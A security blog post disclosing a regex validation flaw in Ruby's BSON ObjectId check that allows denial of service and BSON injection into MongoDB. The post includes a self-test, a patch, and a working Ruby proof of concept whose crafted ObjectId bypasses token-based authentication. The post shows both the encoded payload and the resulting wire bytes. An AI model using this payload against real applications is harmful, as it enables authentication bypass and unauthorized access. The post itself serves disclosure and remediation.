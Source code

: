 ```yaml
---
layout: post
title:  "Mongo BSON Injection: Ruby Regexps Strike Again"
author: "Egor Homakov (<a href='https://twitter.com/homakov'>@homakov</a>)"
---
```


TL;DR There's a subtle bug in BSON-ruby implementation, leading in best case scenario to low-severity DoS, <strong>but most likely to critical BSON Injection</strong> (similar to SQL injection) - depends on gem versions you use.

3 years ago <a href="https://homakov.blogspot.ru/2012/05/saferweb-injects-in-various-ruby.html">I wrote a blog post</a> about broken regular expressions in Ruby, `^$` meaning new lines `\n`. Back then I was only able to demonstrate XSS on Github and other websites using "javascript:a()\nhttps://". I had a feeling there are much worse use cases of this vulnerability and here it is.

## Briefly About Gems

BSON is a binary-encoded serialization of JSON-like documents. MongoDB uses BSON as the data storage and network transfer format for “documents”. 

Mongoid is an ODM (Object Document Mapper) Framework for MongoDB, written in Ruby. Mongo Mapper is another ODM but less popular one.

Moped gem is A MongoDB driver for Ruby.

So Mongoid uses more low-level adapter Moped which uses BSON-ruby (but used to have its own implementation). Mongo Mapper uses Plucky for parsing ObjectId, which also uses BSON-ruby.

Most likely you're using Mongoid or Mongo Mapper, but technically the vulnerability is in `legal?` of BSON::ObjectId.

## A Tale of One Regression

`legal?` was created in Moped::BSON on Jan 23, 2012. It intended to verify the _id from user input is hexdecimal and is exactly 24 symbols. It looked like this:

{%highlight ruby%}
def legal?(str)
  !!str.match(/^[0-9a-f]{24}$/i)
end
{%endhighlight%}

But this nasty `^$`-using Ruby code didn't survive long - <a href="https://github.com/mongoid/moped/commit/dd5a7c14b5d2e466f7875d079af71ad19774609b#diff-3b93602f64c2fe46d38efd9f73ef5358R24">on Apr 17, 2012 it was silently replaced</a> with proper `!!str.match(/\A\h{24}\Z/i)`

However, on March 31, 2013 Moped deleted internal BSON module and <a href="https://github.com/mongoid/moped/commit/b64f937590c69d72fa92255e4c66d3ec126b0ff5#diff-c299a9622b71e55450c761f853668d61R6">switched to separate BSON gem</a>

![](/img/moped.png)

The `legal?` method successfully <a href="https://github.com/mongodb/bson-ruby/commit/fef6f75413511d653c76bf924a932374a183a24f#diff-8c8558c185bbb548ccb5a6d6ac4bfee5R191">migrated to mongodb/bson-ruby</a> before that (on March 3). 

But on Apr 7 <a href="https://github.com/mongodb/bson-ruby/commit/21141c78d99f23d5f34d32010557ef19d0f77203#diff-8c8558c185bbb548ccb5a6d6ac4bfee5L219">an interesting commit happens</a>. @durran (the maintainer of all those repos), replaces `/\A\h{24}\Z/ === string.to_s` with vulnerable `string.to_s =~ /^[0-9a-f]{24}$/i ? true : false`.

So from Apr 17 2012 to March 31 2013 moped used ^$, \A\Z until Apr 7 2013, and then ^$ until now.

## Am I Vulnerable?

I see, you're getting bored. Run this code to see if you're vulnerable:

{%highlight ruby%}
b=((defined?(Moped::BSON) ? Moped::BSON : BSON)::ObjectId)
raise "DoS!" if b.legal? "a"*24+"\n"
raise "Injection!" if b.legal? "a"*24+"\na"
{%endhighlight%}

And use this patch if you indeed are! Don't forget to alert others.

{%highlight ruby%}
def ((defined?(Moped::BSON) ? Moped::BSON : BSON)::ObjectId).legal?(s)
  /\A\h{24}\z/ === s.to_s
end
{%endhighlight%}

## The Vulnerability

If you're lucky enough and use old version of Moped, only light version of DoS is possible. 

Wait, did I mention another reason why Regexps in Ruby are horribly designed? There's \A meaning the beginning and there's \Z meaning the ending... or a new line. You're supposed to know it. Because only \z means the ending. But most people don't care the last `\n`.

![](/img/moped2.png)

So if you send something like `aaaaaaaaaaaaaaaaaaaaaaaa%0A` (with trailing `\n`), the `legal?` method will still return `true` because \Z allows the new line. But when Mongo DB receives a corrupted ObjectId it responds with `[conn1] Assertion: 10307:Client Error: bad object in message: invalid bson type in object with _id: ObjectId('aaaaaaaaaaaaaaaaaaaaaaaa')`. 

Which would be OK if Moped properly reacted, but currently it thinks Mongo is down and pings it 39 more times with intervals. In other words it keeps the worker busy for 5 seconds and makes x40 requests to Mongo DB. One way or another, it is Denial of Service.

But if you're using a newer version of BSON-ruby with ^$, the attacker can send any data to the socket with something like _id=`Any binary data\naaaaaaaaaaaaaaaaaaaaaaaa\nAny binary data`. With following PoC we can bypass any auth token-based system, easily DoS your app, and probably more nasty things - we can write any kind of requests to the socket!

{%highlight ruby%}
require 'uri'
b = BSON::Document.new
b["$query"] = {"token" => {"$gt"=>""}}

payload = b.to_bson[4..-2]
id_ish = ("\n\n" + "a"*24 + "\n\n")

fake_id = "a"*24 +
  "\x02_id\0".unpack('H*')[0] +
  [id_ish.size/2 + 1].pack('V').unpack('H*')[0] + id_ish + "00" +
  payload.unpack('H*')[0]

puts URI.encode(fake_id) # looks like:
# aaaaaaaaaaaaaaaaaaaaaaaa025f6964000f000000%0A%0Aaaaaaaaaaaaaaaaaaaaaaaaa%0A%0A0003247175657279001b00000003746f6b656e000f000000022467740001000000000000

User.find fake_id #returns <User _id: 556f840f686f6d6746000000, token: "a">
{%endhighlight%}

Thanks to <a href="https://twitter.com/judofyr">@judofyr</a> for the help with this PoC!

ObjectId is unpacked from hex string and injected as-is into the socket (not sanitized for performance reasons, it's supposed to be valid ObjectId). It breaks BSON format and redefines or defines new parameters of the BSON object.

\x83\x00\x00\x00\x02\x00\x00\x00\x00\x00\x00\x00\xD4\a\x00\x00\x00\x00\x00\x00
mng_development.users\x00\x00\x00\x00\x00\x00\x00\x00\x00Q\x00\x00\x00\a_id<strong>\x00
\xAA\xAA\xAA\xAA\xAA\xAA\xAA\xAA\xAA\xAA\xAA\xAA\x02_id\x00\x0F\x00\x00\x00\xAA
\xAA\xAA\xAA\xAA\xAA\xAA\xAA\xAA\xAA\xAA\xAA\xAA\xAA\x00\x03$query\x00\e\x00\x00
\x00\x03token\x00\x0F\x00\x00\x00\x02$gt\x00\x01</strong>\x00\x00\x00\x00\x00\x00\x00

Implications of this vulnerability can be huge, so patch your systems asap. Another post about dangers of BSON is coming soon, and that one impacts all platforms.